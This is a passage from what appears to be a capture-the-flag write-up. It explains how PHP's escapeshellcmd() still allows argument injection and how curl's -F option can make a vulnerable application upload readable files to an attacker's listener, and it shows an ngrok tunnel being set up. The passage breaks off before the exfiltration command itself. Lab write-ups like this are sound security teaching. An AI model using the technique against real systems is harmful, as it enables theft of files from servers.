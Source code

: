 > **Warning:** escapeshellcmd() should be used on the whole command string, and it still allows the attacker to pass arbitrary number of arguments. 
> For escaping a single argument escapeshellarg() should be used instead. 

Ok, so we have a vulnerability we're going to exploit.

[Back to top](#contents) ⤴

# Exploit

> 🔔 `CyberEthical.Me` is maintained purely from your donations - if you would like to boost the community, consider one-time sponsoring at the 🍻 [Buymeacoffee](https://www.buymeacoffee.com/asentinn) or use the [Sponsor](https://blog.cyberethical.me/sponsor) button.

Now, `curl` have one parameter, that existence is not that obvious for a command that almost always is used to make a request under given address.

```sh
$ man curl 

-F, --form <name=content>
       (HTTP SMTP IMAP) For HTTP protocol family, this lets curl emulate a filled-in form in which a user has
       pressed the submit button. This causes curl to POST data using  the  Content-Type  multipart/form-data
       according to RFC 2388.

       For SMTP and IMAP protocols, this is the mean to compose a multipart mail message to transmit.

       This  enables uploading of binary files etc. To force the 'content' part to be a file, prefix the file
       name with an @ sign. To just get the content part from a file, prefix the file name with the symbol <.
       The  difference between @ and < is then that @ makes a file get attached in the post as a file upload,
       while the < makes a text field and just get the contents for that text field from a file.

```

Yeah. We can force the application to send any file it has access to, via the response. Let's try it.

## Setup listener

In this challenge we are not given the VPN, all boxes are exposed to the global network. So we have to make a tunnel to our localhost.

I'm using `ngrok` in one terminal:

```text
$ /opt/ngrok http 4444

ngrok by @inconshreveable                                                                              (Ctrl+C to quit)
                                                                                                                       
Session Status                online                                                                                   
Account                       XXXXX (Plan: Free)                                                                    
Version                       2.3.39                                                                                   
Region                        United States (us)                                                                       
Web Interface                 http://127.0.0.1:4040                                                                    
```